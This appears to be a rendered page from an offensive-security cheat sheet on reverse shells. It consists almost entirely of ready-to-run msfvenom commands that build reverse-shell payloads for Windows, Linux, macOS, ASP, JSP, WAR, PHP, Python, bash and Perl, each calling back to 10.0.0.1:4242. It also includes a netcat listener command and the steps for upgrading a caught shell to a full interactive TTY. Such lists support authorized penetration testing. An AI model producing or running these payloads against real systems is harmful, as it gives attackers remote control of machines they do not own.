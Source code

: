 ### Windows Staged Reverse TCP
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f exe > reverse.exe
```
### Windows Stageless Reverse TCP
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f exe > reverse.exe
```
### Linux Staged Reverse TCP
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf > reverse.elf
```
### Linux Stageless Reverse TCP
```
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.0.0.1 LPORT=4242 -f elf > reverse.elf
```
#### Other Platforms
```
$ // msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f elf > shell.elf
$ // msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f exe > shell.exe
$ // msfvenom -p osx/x86/shell_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f macho > shell.macho
$ // msfvenom -p windows/meterpreter/reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f asp > shell.asp
$ // msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f raw > shell.jsp
$ // msfvenom -p java/jsp_shell_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f war > shell.war
$ // msfvenom -p cmd/unix/reverse_python LHOST="10.0.0.1" LPORT=4242 -f raw > shell.py
$ // msfvenom -p cmd/unix/reverse_bash LHOST="10.0.0.1" LPORT=4242 -f raw > shell.sh
$ // msfvenom -p cmd/unix/reverse_perl LHOST="10.0.0.1" LPORT=4242 -f raw > shell.pl
$ // msfvenom -p php/meterpreter_reverse_tcp LHOST="10.0.0.1" LPORT=4242 -f raw > shell.php; cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
```

### Spawn TTY-Shell
```
rlwrap nc 10.0.0.1 4242
rlwrap -r -f . nc 10.0.0.1 4242

-f . will make rlwrap use the current history file as a completion word list.
-r Put all words seen on in- and output on the completion list.
```

#### OhMyZSH might break this trick, a simple 'sh' is recommended
**The main problem here is that zsh doesn't handle the stty command the same way bash or sh does.
    [...] stty raw -echo; fg[...] If you try to execute this as two separated commands,
    as soon as the prompt appear for you to execute the fg command, your -echo command already lost its effect.**

```
Ctrl + Z
echo $TERM && tput lines && tput cols

# for bash
stty raw -echo
fg

# for zsh
stty raw -echo; fg

reset
export SHELL=bash
export TERM=xterm-256color
stty rows <num> columns <cols>
```
